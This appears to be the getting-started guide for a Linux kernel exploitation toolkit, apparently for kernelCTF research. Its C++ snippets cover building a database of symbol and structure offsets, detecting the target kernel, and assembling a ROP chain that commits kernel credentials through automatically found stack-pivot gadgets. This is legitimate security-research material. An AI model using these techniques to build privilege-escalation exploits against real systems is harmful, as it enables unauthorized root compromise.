 # How to get started

### Creating a Database

1. Add the necessary includes to the exploit code.

    ```c++
    #include <cassert>
    #include <target/TargetDb.cpp>
    #include <test/kpwn/Kpwn.cpp>
    #include <util/incbin.cpp>
    #include <util/syscalls.cpp>
    #include <util/error.cpp>
    #include <util/pwn_utils.cpp>
    #include <payloads/Payload.cpp>
    #include <util/HexDump.cpp>
    #include <util/ArgumentParser.cpp>
    #include <pivot/PivotFinder.cpp>
    #include <pivot/StackPivot.cpp>
    #include <payloads/PayloadBuilder.h>
    #include <payloads/PayloadBuilder.cpp>
    ```

2. Include the **target_db** in the exploit. `INCBIN` creates a read-only section in the binary with the file contents.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**:

    ```c++
    TargetDb kxdb(target_db, target_db_size);
    ```

4. Already available in database structure and symbol offsets are documented in `kxdb_tool/converter/config.py`. 
They are added for all the supported targets.

5. If the needed symbol is not in database, use `StaticTarget` object to add it. One object per target needed. For example:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddStaticTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128, { 
        {"dump", 64, 8},
        {"type", 120, 8} });

    kxdb.AddStaticTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7. Access pre-defined or added (via `StaticTarget`) structures and symbols using following calls:

    ```c++
    auto offset = structs.at("nft_expr_ops").size + structs.at("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ``` 

8.  Detect which target **TargetDb** is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```
   
   > **Note**
   > Reserves 8 bytes at offset 0.   

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kxdb_tool/converter/config.py`. 

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build()) 
        exit(-1); 
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:
   
   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset(); 
   ```
